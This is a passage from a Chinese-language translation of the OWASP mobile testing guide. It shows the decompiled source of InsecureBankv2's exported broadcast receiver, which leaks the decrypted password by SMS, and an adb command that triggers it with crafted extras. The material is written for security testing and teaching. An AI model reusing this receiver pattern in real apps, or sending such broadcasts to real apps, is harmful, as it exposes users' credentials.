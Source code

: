 以上来自易受攻击的银行应用程序[InsecureBankv2](https://mas.owasp.org/MASTG/Tools/0x08b-Reference-Apps/#insecurebankv2)的示例表明，仅`com.android.insecurebankv2.MyBroadCastReceiver`导出名为的广播接收器。

现在您知道有一个导出的广播接收器，您可以深入研究并使用[jadx](https://mas.owasp.org/MASTG/Tools/0x08a-Testing-Tools/#jadx)对应用程序进行逆向工程。这将允许您分析源代码，寻找您以后可以尝试利用的潜在漏洞。导出的广播接收器源代码如下：

```
package com.android.insecurebankv2;
...
public class MyBroadCastReceiver extends BroadcastReceiver {
    public static final String MYPREFS = "mySharedPreferences";
    String usernameBase64ByteString;

    public void onReceive(Context context, Intent intent) {
        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");
        if (phn != null) {
            try {
                SharedPreferences settings = context.getSharedPreferences("mySharedPreferences", 1);
                this.usernameBase64ByteString = new String(Base64.decode(settings.getString("EncryptedUsername", (String) null), 0), "UTF-8");
                String decryptedPassword = new CryptoClass().aesDeccryptedString(settings.getString("superSecurePassword", (String) null));
                String textPhoneno = phn.toString();
                String textMessage = "Updated Password from: " + decryptedPassword + " to: " + newpass;
                SmsManager smsManager = SmsManager.getDefault();
                System.out.println("For the changepassword - phonenumber: " + textPhoneno + " password is: " + textMessage);
                smsManager.sendTextMessage(textPhoneno, (String) null, textMessage, (PendingIntent) null, (PendingIntent) null);
            } catch (Exception e) {
                e.printStackTrace();
            }
        } else {
            System.out.println("Phone number is null");
        }
    }
}
```

正如您在源代码中所见，此广播接收器需要两个名为`phonenumber`和的参数`newpass`。有了这些信息，您现在可以尝试通过使用自定义值向它发送事件来利用这个广播接收器：

```
# Send an event with the following properties:
# Action is set to "theBroadcast"
# Parameter "phonenumber" is set to the string "07123456789"
# Parameter "newpass" is set to the string "12345"
$ adb shell am broadcast -a theBroadcast --es phonenumber "07123456789" --es newpass "12345"
Broadcasting: Intent { act=theBroadcast flg=0x400000 (has extras) }
Broadcast completed: result=0
```
